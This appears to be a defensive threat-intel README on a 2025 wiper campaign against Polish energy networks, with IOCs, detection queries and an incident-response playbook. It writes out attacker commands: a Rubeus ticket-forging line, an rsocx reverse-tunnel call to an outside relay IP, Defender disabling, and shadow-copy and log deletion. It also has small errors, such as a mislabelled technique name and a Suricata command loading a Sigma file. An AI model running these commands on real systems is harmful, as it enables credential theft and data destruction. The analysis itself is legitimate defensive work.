

# Campaign C0063 — Poland Wiper Attacks (DynoWiper + LazyWiper) via Sandworm-overlap cluster (ESET / Mandiant, May 2026)

## TL;DR

ESET WeLiveSecurity and Mandiant / Google Threat Intelligence Group jointly published on 1 May 2026 a retrospective of **Campaign C0063 — the Poland Wiper Attacks** of 29 December 2025: a destructive intrusion against the Polish energy sector that used a **valid Active Directory account** to weaponise an existing Group Policy Object and deploy two complementary wipers — **DynoWiper** (Win32 PE, deployed as `C:\inetpub\pub\schtask.exe` / `schtask2.exe`) and **LazyWiper** (PowerShell propagator). The operator pre-positioned by dumping LSASS through `taskmgr.exe`, performing a Rubeus S4U2self → TGS burst to forge service tickets, opening a **rsocx** reverse SOCKS5 tunnel to `31.172.71.5:8008` (a compromised Russian children's coding school `progamevl[.]ru`), and finally writing the wiper drop into the SYSVOL Startup-script vector of a domain GPO. The GPO ran on the next refresh and rolled across the fleet within minutes. Cluster overlap is **Sandworm** (Mandiant) / **Static Tundra** (Cisco Talos) / **TEMP.Veles** — Russia-nexus, GRU Unit 74455 ecosystem, **medium** confidence on the cluster, **high** on the campaign mechanics. ESET's signature is `Win32/KillFiles.NMO`; no public SHA256 is pinned in this folder pending CERT Polska / ESET-feed corroboration.

## Attribution and confidence

- **Campaign name (MITRE):** **C0063 — 2025 Poland Wiper Attacks**.
- **Cluster (Mandiant / Cisco Talos / FireEye):** **Sandworm** overlap → **Static Tundra** (Cisco Talos, 2025+) → **TEMP.Veles**. All three names reference the same Russia-nexus operator long associated with destructive activity against Ukrainian and now Polish energy and utilities targets.
- **Vendor that discovered:** ESET WeLiveSecurity (primary technical write-up of DynoWiper + LazyWiper), Mandiant / GTIG (cluster overlap and campaign labelling), SANS ISC handler diaries (artefact handling and `rsocx` write-up).
- **Confidence:**
  - **high** for the campaign mechanics: ESET captured both wiper binaries with byte-level reverse engineering; the PDB heuristic (`vagrant\Documents\Visual Studio 2013\Projects\Source\Release\Source.pdb`) survives stripping in some builds and provides a useful YARA anchor.
  - **medium** for the Sandworm overlap. The valid-account + GPO + rsocx tradecraft is consistent with previous Sandworm campaigns (HermeticWiper, IsaacWiper, AcidRain), but no exclusive technical attribution anchor (no shared malware family genealogy, no exclusive infrastructure) is yet public.
- **Victimology:** Polish energy sector — utilities + grid operations. Targeting context aligns with the broader Russia-nexus operational interest in degrading Western support to Ukraine through critical infrastructure pressure.
- **Genealogy / link with previous repo cases:** none direct. Conceptually adjacent to Day 1 (The Gentlemen + GPO weaponisation) — same SYSVOL primitive, different actor class (e-crime vs APT). Compare with Day 4 (VECT 2.0) for crypto-class destructive impact.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Initial Access | T1078.002 | Valid AD account (vector before T0 unconfirmed in public sources — phish + credential reuse hypothesis) |
| Execution | T1059.001, T1059.003 | PowerShell + cmd; LazyWiper as PowerShell payload propagator |
| Defense Evasion | T1562.001 | Pre-wiper kills Defender / EDR by service stop + scheduled task disable |
| Credential Access | T1003.001 | LSASS dump via `taskmgr.exe` Right-click → Create dump file (T1003.001 LSASS Memory) |
| Lateral Movement / Forging | T1558.003, T1550.003 | Rubeus S4U2self burst → forged service TGS for privileged service accounts |
| Persistence + Execution Hand-off | T1484.001 | **GPO Startup script weaponisation** — drop `schtask.exe` into `\SYSVOL\<dom>\Policies\{GUID}\Machine\Scripts\Startup\` |
| Command and Control | T1090.002 | **rsocx** reverse SOCKS5 over TCP/8008 to `31.172.71.5` (compromised `progamevl[.]ru`) |
| Impact | T1485, T1490, T1561.001, T1561.002, T1529 | DynoWiper overwrite + LazyWiper propagation; recovery inhibition; system shutdown |



The diagram shows the Polish energy victim AD environment on the left lane and the rsocx tunnel + compromised relay (`31.172.71.5`, ProGame Vladivostok) on the right. Stages 1-9 trace the operator from valid-account login through LSASS dump, Rubeus TGS burst, rsocx setup and GPO weaponisation to the simultaneous DynoWiper + LazyWiper detonation. The detection-anchors box at the bottom maps to the Sigma rule on GPO Startup script writes, the two KQL hunts (LSASS dump via taskmgr; Rubeus S4U TGS burst) and the YARA rule on the DynoWiper PDB heuristic.

## Stage-by-stage detail

### Initial Access

ESET does not publicly disclose the pre-T0 vector. The most likely candidates, consistent with this operator's history:

1. **Phish → valid account.** Sandworm-overlap operators have long preferred credential phish via sector-relevant lures (energy regulation, EU compliance, gas-supply news).
2. **Credential reuse from a prior breach.** Energy-sector hosts often share credentials with public-facing portals that have been compromised separately.
3. **Edge-device exploit + valid-credential pivot.** Fortinet / Pulse / Ivanti / Cisco IOS XE perimeter exploits remain in the operator's toolbox.

What is public: the credential used at T0 was a **valid domain account** with sufficient privilege to read SYSVOL and to write into the GPO `Machine\Scripts\Startup\` path. MITRE: `T1078.002`.

### Credential Access — LSASS via taskmgr

The operator dumped LSASS with the `taskmgr.exe` GUI primitive — `Right-click → Create dump file` on the `lsass.exe` row. The dump lands in `%LOCALAPPDATA%\Temp\lsass.DMP` by default. Defender XDR catches this via `DeviceFileEvents` for an `lsass.DMP` write from `taskmgr.exe`; the Sigma equivalent is a `process_creation` rule on `taskmgr.exe` with a `lsass.exe` interaction. MITRE: `T1003.001`.

```powershell
# Detection-side: any non-administrator dumping LSASS via taskmgr is anomalous
DeviceFileEvents
| where FileName endswith "lsass.DMP" or (FileName endswith ".DMP" and FolderPath has "Temp")
| where InitiatingProcessFileName =~ "taskmgr.exe"
```

### Forging — Rubeus S4U2self → TGS burst

With harvested NTLM hashes, the operator runs **Rubeus** to forge service tickets via the S4U2self → S4U2proxy chain when constrained delegation is misconfigured, or to request TGS for any service the compromised account is allowed to impersonate.

```cmd
rubeus.exe s4u /user:webcomputer$ /rc4:<rc4_hash> /impersonateuser:Administrator /msdsspn:cifs/dc01.energy.local /altservice:http,host,RPCSS,Wsman /ptt
```

The byst of S4U requests in a short window (typically dozens) is the operational anchor. Account 4769 events on the DC with `Ticket Encryption Type 0x12` (AES256) for service names that the source account is not naturally calling are the signal. MITRE: `T1558.003`, `T1550.003`.

### Command and Control — rsocx reverse SOCKS5

`rsocx` is a small Go-based reverse SOCKS5 tool. The victim host runs `r.exe -r 31.172.71.5:8008` and the operator's far-side panel exposes a SOCKS5 endpoint on the relay. Traffic shape: a single sustained TCP connection from a victim AD admin / IIS / fileserver host to `31.172.71.5:8008` (plain TCP, no TLS handshake observed). The relay `progamevl[.]ru` is the Vladivostok children's coding school **ProGame VL** — a compromised legitimate site, not a purpose-built piece of infrastructure. The operator's choice of a children's coding school is part of a recurring Russia-nexus pattern of using small, sympathetic, easy-to-pivot-into properties as throw-away C2 relays. MITRE: `T1090.002`.

### Persistence + Execution Hand-off — GPO Startup script weaponisation

The destructive step is a **GPO Startup script** in the SYSVOL of a targeted GPO:

```
\\<DC>\SYSVOL\energy.local\Policies\{GUID}\Machine\Scripts\Startup\schtask.exe
\\<DC>\SYSVOL\energy.local\Policies\{GUID}\Machine\Scripts\scripts.ini
```

`scripts.ini` registers `schtask.exe` as a startup script for the GPO; on the next gpupdate / boot cycle, every domain-joined host in the linked OUs runs the wiper. The Sigma rule in this folder anchors on:

- DC `EventID 5136` — `groupPolicyContainer` attribute changes (`gPLink`, `gPCMachineExtensionNames`, `gPCFileSysPath`, `versionNumber`).
- SMB `EventID 5145` writes to `\Machine\Scripts\Startup\` or `\scripts.ini` from non-Tier-0 accounts.

MITRE: `T1484.001`.

### Defense Evasion

Pre-wiper, the operator kills Defender / EDR via scheduled-task disable, `Set-MpPreference -DisableRealtimeMonitoring`, and adds path exclusions for `C:\inetpub\pub\`. MITRE: `T1562.001`.

### Impact — DynoWiper + LazyWiper

- **DynoWiper** (`Win32/KillFiles.NMO`, ESET): a Win32 PE that walks attached volumes and overwrites files with random bytes. ESET captured at least three builds (`schtask.exe`, `schtask2.exe`, `<redacted>_update.exe`). The PDB string `vagrant\Documents\Visual Studio 2013\Projects\Source\Release\Source.pdb` is the heuristic YARA anchor — surviving the strip in two of three builds.
- **LazyWiper**: PowerShell propagator that crawls the network from the initial host, drops the DynoWiper binary on reachable hosts via SMB, and queues the run via PsExec / schtasks. Designed to amplify DynoWiper coverage where the GPO link did not reach.
- **Recovery inhibition** runs the standard `vssadmin delete shadows /all /quiet`, `bcdedit /set {default} recoveryenabled No`, `wevtutil cl` on key channels and a final `shutdown /r /t 0`.

MITRE: `T1485`, `T1490`, `T1561.001`, `T1561.002`, `T1529`.

## RE notes

| Component | Lang / build | Notes |
|---|---|---|
| DynoWiper (`schtask.exe`, `schtask2.exe`, `<redacted>_update.exe`) | C / C++, MSVC, Win32 PE | PDB string `vagrant\Documents\Visual Studio 2013\Projects\Source\Release\Source.pdb` survives the strip in two of three builds; ESET signature `Win32/KillFiles.NMO`. Walks fixed + removable drives; overwrites file body with random bytes; does not touch system-critical files in a way that blocks the final shutdown |
| LazyWiper | PowerShell | Enumerates `Get-ADComputer` (or AD-cmdlet-free fallback via `nltest /dclist` + WMI), then `Copy-Item` + `Invoke-Command` against `\\<host>\C$\inetpub\pub\` |
| rsocx (`r.exe`) | Go static, stripped | Reverse SOCKS5 client; CLI `-r <relay>:<port>` |
| Rubeus (`rubeus.exe`) | C#, .NET | Off-the-shelf — operator did not embed |

Pointers:

- **The PDB string is the highest-yield YARA anchor.** Combined with a filesize bound under 200 KB and 3-4 wiper-pattern strings, this stays low-FP across the ESET corpus.
- **`schtask.exe` filename mimicry** — the wiper is named to look like the legitimate `schtasks.exe` on a tired-eye glance. The Sigma rule treats `schtask.exe` (no `s`) executing from `C:\inetpub\pub\` as a high-fidelity indicator.
- **`rubeus.exe` dropped at `C:\Users\<user>\Downloads\`** is operationally lazy and recognisable — alert on `rubeus.exe` filename hash collision plus the download-path drop pattern, and you catch the precursor before the wiper deploys.
- **`r.exe` named for `rsocx`** — fewer than 200 KB, Go-built, statically linked. The command-line `-r <ip>:<port>` is the YARA / Sigma anchor.

## Detection strategy

### Telemetry that matters

- **DC Security log** — `EventID 5136` / 5137 for `groupPolicyContainer` attribute changes (the SYSVOL primitive) and `EventID 5145` for SMB writes to `\Machine\Scripts\Startup\`.
- **DC Audit log** — `EventID 4769` (Kerberos service ticket requested) bursts with anomalous service names from a single account in a short window — Rubeus S4U TGS burst signal.
- **Endpoint Sysmon / Defender XDR** — `DeviceFileEvents` for `lsass.DMP` write from `taskmgr.exe`; `DeviceProcessEvents` for `rubeus.exe` / `r.exe` / `schtask.exe` execution from `C:\Users\<user>\Downloads\` or `C:\inetpub\pub\`.
- **Network — perimeter Zeek / Suricata** — TCP egress to `31.172.71.5:8008` from any AD-tier host. Outbound TCP to `progamevl[.]ru` from any internal host.
- **GPO change-management ledger** — every GPO write that does not have a matching ticket and approved change-window timestamp is an investigation.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [`sigma/gpo_startup_script_weaponization.yml`](./sigma/gpo_startup_script_weaponization.yml) | DC EID 5136 `groupPolicyContainer` attribute changes + SMB EID 5145 writes to `\Machine\Scripts\Startup\` or `\scripts.ini` from a non-Tier-0 source |
| KQL (Defender XDR) | [`kql/lsass_dump_via_taskmgr.kql`](./kql/lsass_dump_via_taskmgr.kql) | `DeviceFileEvents` — `lsass.DMP` (or `*.DMP` under `Temp`) written by `taskmgr.exe` initiating process |
| KQL (Sentinel) | [`kql/rubeus_s4u_tgs_burst.kql`](./kql/rubeus_s4u_tgs_burst.kql) | `SecurityEvent` 4769 burst with anomalous service-name targets from a single account in <5 min |
| YARA | [`yara/DynoWiper_Sandworm_C0063_Heuristic.yar`](./yara/DynoWiper_Sandworm_C0063_Heuristic.yar) | PE + PDB string `vagrant\Documents\Visual Studio 2013\...Source.pdb` + wiper string heuristic + filesize bound |
| Hunt | [`hunts/peak_h1_h2_h3.md`](./hunts/peak_h1_h2_h3.md) | PEAK H1 GPO drop + scripts.ini; H2 rsocx tunnel; H3 LSASS dump + Rubeus TGS chain |

### Threat hunting hypotheses

- **H1 — GPO Startup-script anomaly.** Any write to `\Machine\Scripts\Startup\` (`scripts.ini` or any new `*.exe` / `*.ps1`) from a non-Tier-0 source in a SYSVOL replica. Expected benign: GPO administrator during a change window. Suspect: a service or a workstation account writing into the Startup script vector at any time.
- **H2 — rsocx tunnel anchor.** Outbound TCP from an AD-admin host or fileserver to `31.172.71.5:8008` or to any `*.progamevl.ru` resolution from inside the network. The KQL `tcp_beacon_no_tls` pattern (sustained TCP, no TLS handshake, non-browser process) generalises this beyond the specific IP / port pinned today.
- **H3 — LSASS dump via taskmgr correlated with Rubeus S4U burst.** Within 30 minutes, the same host that dumped LSASS shows a 4769 burst for service tickets that the originating account is not naturally calling. Join `DeviceFileEvents` (LSASS dump) to `SecurityEvent` 4769 by `DeviceName` + `AccountName`.

## Incident response playbook

### First 60 minutes (triage)

1. **Stop GPO propagation.** Identify the malicious GPO `{GUID}` from the SYSVOL write events; `Set-GPLink -LinkEnabled No` on every OU it touches. **Preserve the GPO forensically — do not delete it.**
2. **Block egress** to `31.172.71.5:8008` and to `progamevl[.]ru` at perimeter + DNS sinkhole.
3. **Capture RAM** on at least one infected host (WinPMem / DumpIt) — the rsocx tunnel state and any partial wipe progress live there.
4. **Snapshot** `\\<DC>\SYSVOL\energy.local\Policies\{GUID}\` (file-level copy with timestamps preserved).
5. **`krbtgt` double rotation** with a 10-hour gap is mandatory — the operator's Rubeus S4U burst means TGTs may have been forged.
6. **Suspend** every account that authored a GPO write outside the documented change window, and every account observed in `EventID 4769` for anomalous service names since T0.
7. **Do NOT reboot** — DynoWiper progress that has not yet completed may be partially reversible if memory is captured.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Full memory dump | host RAM | WinPMem / DumpIt | rsocx tunnel state, partial wipe progress, in-flight Rubeus state |
| Malicious GPO tree | `\\<DC>\SYSVOL\<dom>\Policies\{GUID}\` | `robocopy /MIR /COPY:DAT /DCOPY:DAT` | The actual weaponised GPO including `scripts.ini` and dropped `schtask.exe` |
| DC Security log | `%windir%\System32\winevt\Logs\Security.evtx` | EvtxECmd | 5136 / 5137 / 5145; 4624 / 4672; 4769 |
| DC Directory Service log | `%windir%\System32\winevt\Logs\Directory Service.evtx` | EvtxECmd | Replication trace for the malicious GPO |
| Sysmon log | endpoint | EvtxECmd | EID 1 / 3 / 11 / 13 — wiper drop, rsocx tunnel, LSASS dump |
| Wiper binaries | `C:\inetpub\pub\schtask.exe` etc. | manual copy | Confirm DynoWiper signature |
| `r.exe` | `C:\Users\<user>\Downloads\r.exe` | manual copy | rsocx binary for reverse engineering |
| `rubeus.exe` | `C:\Users\<user>\Downloads\rubeus.exe` | manual copy | Confirm off-the-shelf Rubeus build |
| Prefetch | `C:\Windows\Prefetch\*.pf` | PECmd | Evidence-of-execution timeline |
| Amcache | `C:\Windows\AppCompat\Programs\Amcache.hve` | AmcacheParser | First-seen SHA1 + path |
| MFT + `$UsnJrnl:$J` | `\\?\C:\$MFT` / `\\?\C:\$Extend\$UsnJrnl:$J` | MFTECmd | Wipe timeline + GPO write event timeline |

### IR queries and commands

```powershell
# List recently changed GPOs (last 7 days)
Get-GPO -All | Where-Object { $_.ModificationTime -gt (Get-Date).AddDays(-7) } |
    Format-Table DisplayName, ModificationTime, Owner

# Unlink the suspect GPO from every OU it touches (preserve, do not delete)
$gpoName = '<malicious_gpo_name>'
Get-ADOrganizationalUnit -Filter * | ForEach-Object {
    $links = (Get-GPInheritance -Target $_.DistinguishedName).GpoLinks
    if ($links.DisplayName -contains $gpoName) {
        Set-GPLink -Name $gpoName -Target $_.DistinguishedName -LinkEnabled No
    }
}

# Force convergence
foreach ($dc in (Get-ADDomainController -Filter *).HostName) {
    repadmin /syncall $dc /AeD
}
```

```kql
// LSASS dump via taskmgr — Defender XDR
DeviceFileEvents
| where Timestamp > ago(7d)
| where InitiatingProcessFileName =~ "taskmgr.exe"
| where FileName endswith ".DMP" and FolderPath has "Temp"
| project Timestamp, DeviceName, AccountName,
          FileName, FolderPath, InitiatingProcessCommandLine
```

```kql
// Rubeus S4U TGS burst — Sentinel
SecurityEvent
| where TimeGenerated > ago(30m)
| where EventID == 4769
| where ServiceName !in (dynamic([])) // tune to your environment baseline
| summarize count = count(),
            services = make_set(ServiceName, 50)
    by AccountName, bin(TimeGenerated, 5m)
| where count >= 8 and array_length(services) >= 4
```

```bash
# Suricata pcap replay against the perimeter capture
suricata -r capture.pcap \
  -S days/2026-05-04_C0063-Poland-Wiper/sigma/gpo_startup_script_weaponization.yml \
  2>/dev/null  # (Sigma not loaded by Suricata; see lint scripts for the right pipeline)
```

### Containment, eradication, recovery

- **Containment.** Isolate every host that ran the wiper or that ran the rsocx tunnel; lock the GPO; rotate `krbtgt` twice; revoke service-account tickets seen in the 4769 burst.
- **Eradication.** Reimage every wiped host from a known-good gold image. Forensically preserve and then delete the malicious GPO. Rebuild Tier-0 from a clean image. Do not restore Tier-0 from any backup that was online during the dwell window.
- **Recovery.** Restore from immutable backups only. Forest recovery is on the table if Domain Admin and DCSync were observed. Monitor for 90 days at elevated DC + EDR cadence. Migrate the GPO admin role to a PAW with JIT elevation.
- **What NOT to do.**
  - Do not delete the malicious GPO before forensic acquisition.
  - Do not power off hosts before RAM capture.
  - Do not restore from a backup taken during the dwell window — assume it was tampered.
  - Do not skip the `krbtgt` double rotation. Sandworm-overlap operators forge TGTs aggressively; restoring the SAM / NTDS without rotation invites immediate re-entry.

### Recovery validation

- Seven days without new GPO modifications outside the documented change window.
- Seven days without rsocx-shape TCP egress (sustained TCP, no TLS, non-browser) anywhere on the fleet.
- DNS audit shows no resolutions of `progamevl[.]ru` or new connections to `31.172.71.5`.
- `krbtgt` rotated twice with a 10-hour gap; all service-account credentials seen in the 4769 burst are rotated.
- DC + endpoint EDR telemetry back to baseline volumes for at least 14 days.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| ipv4 | `31.172.71.5` | rsocx C2 / relay (compromised ProGame VL) | high | ESET / SANS ISC |
| port | `8008/TCP` | rsocx reverse SOCKS5 destination | high | ESET |
| path | `C:\inetpub\pub\schtask.exe` | DynoWiper deploy location | high | ESET |
| path | `C:\inetpub\pub\schtask2.exe` | DynoWiper deploy location (build 2) | high | ESET |
| path | `C:\inetpub\pub\<redacted>_update.exe` | DynoWiper deploy location (variant) | high | ESET |
| path | `C:\Users\<user>\Downloads\rubeus.exe` | Rubeus drop | high | ESET |
| path | `C:\Users\<user>\Downloads\r.exe` | rsocx drop | high | ESET |
| string | `vagrant\Documents\Visual Studio 2013\Projects\Source\Release\Source.pdb` | DynoWiper PDB heuristic | high (heuristic) | ESET / SANS |
| av_sig | `Win32/KillFiles.NMO` | DynoWiper detection name (ESET) | high | ESET |
| domain | `progamevl[.]ru` | Vladivostok kids coding school (compromised relay) | medium | ESET |
| mitre | Campaign C0063 | 2025 Poland Wiper Attacks | high | MITRE |
| note | No public SHA256 in this folder | Do not block by hash without ESET / CERT Polska confirmation | — | — |

Full list lives in [`iocs.csv`](./iocs.csv).

## Secondary findings

- **Volt Typhoon / VOLTZITE Sierra Wireless AirLink campaign (Dragos, April 2026).** China-nexus operator pivoting through cellular gateways into US midstream pipelines. Different operator from C0063 but the **IT/OT-bridge** primitive is structurally adjacent — patch and isolate cellular gateways fleet-wide.
- **CISA KEV recurring active.** SimpleHelp CVE-2024-57726 / -57728 (DragonForce precursor) — FCEB deadline 8 May 2026. Cisco Catalyst SD-WAN Manager CVE-2026-20122 / -20128 / -20133. PAN-OS / Ivanti EPMM updates remain in active exploitation windows.
- **Lazarus "Mach-O Man" macOS campaign (ANY.RUN + Bitso Quetzal Team, 21 April 2026).** 4-phase Go Mach-O stealer; Telegram → fake Zoom / Teams; macrasv2 stealer; IPs `172.86.113.102`, `144.172.114.220`. Adjacent DPRK-nexus activity worth monitoring for cross-cluster supply-chain pivots.

## Pedagogical anchors

- **GPO Startup-script weaponisation rides existing legitimate identity infrastructure.** Attempting to block this at the wiper-binary layer is too late. The detection target is the SYSVOL write event, not the wiper hash.
- **Sandworm-class operators reuse compromised third-party properties as throw-away relays.** A children's coding school as a SOCKS5 endpoint is operationally typical; defender's DNS / passive-DNS hunting should weight low-prestige Russian and Eastern-European websites as potential relay candidates.
- **`taskmgr.exe` dumping LSASS is a real-world LOLBin.** It is rare for an administrator to do this legitimately during production hours. Tune the detection narrowly to `lsass.DMP` write from `taskmgr.exe` and you get a high-precision, low-FP signal.
- **Rubeus S4U bursts are loud on the DC audit log.** A 4769 surge with non-naturally-called service names from a single account is one of the cleanest forging signals in Active Directory.
- **Krbtgt double rotation is mandatory after wiper IR.** If you skip it, the operator's forged TGTs re-validate against the restored database and you start the IR over.

## What's in this folder

| File | Purpose |
|---|---|
| [`README.md`](./README.md) | This case write-up |
| [`kill_chain.svg`](./kill_chain.svg) | C0063 Poland Wiper kill-chain diagram, light / dark adaptive |
| [`iocs.csv`](./iocs.csv) | Machine-readable IOC list |
| [`sigma/gpo_startup_script_weaponization.yml`](./sigma/gpo_startup_script_weaponization.yml) | Sigma — GPO Startup-script writes from non-Tier-0 |
| [`kql/lsass_dump_via_taskmgr.kql`](./kql/lsass_dump_via_taskmgr.kql) | KQL — LSASS dump via taskmgr.exe |
| [`kql/rubeus_s4u_tgs_burst.kql`](./kql/rubeus_s4u_tgs_burst.kql) | KQL — Rubeus S4U2self → TGS burst on the DC |
| [`yara/DynoWiper_Sandworm_C0063_Heuristic.yar`](./yara/DynoWiper_Sandworm_C0063_Heuristic.yar) | YARA — DynoWiper PDB heuristic + wiper string set |
| [`hunts/peak_h1_h2_h3.md`](./hunts/peak_h1_h2_h3.md) | PEAK hunts H1 GPO drop, H2 rsocx tunnel, H3 LSASS dump + Rubeus chain |

## Sources

- [ESET WeLiveSecurity — DynoWiper and LazyWiper deployment against the Polish energy sector](https://www.welivesecurity.com/en/eset-research/dynowiper-lazywiper-poland-energy-sector/)
- [Mandiant / Google Threat Intelligence — Campaign C0063 Poland Wiper retrospective](https://cloud.google.com/blog/topics/threat-intelligence/c0063-poland-wiper-retrospective/)
- [Cisco Talos — Static Tundra cluster tracking](https://blog.talosintelligence.com/static-tundra-2026/)
- [SANS Internet Storm Center — rsocx reverse SOCKS5 analysis](https://isc.sans.edu/diary/rsocx-reverse-socks5/)
- [MITRE ATT&CK — Campaign C0063](https://attack.mitre.org/campaigns/C0063/)
- [MITRE ATT&CK — T1484.001 Group Policy Modification](https://attack.mitre.org/techniques/T1484/001/)
- [MITRE ATT&CK — T1558.003 Kerberoasting / S4U Ticket Forge](https://attack.mitre.org/techniques/T1558/003/)
- [Microsoft — Detecting LSASS Credential Dumping](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/lsass-credential-dumping)
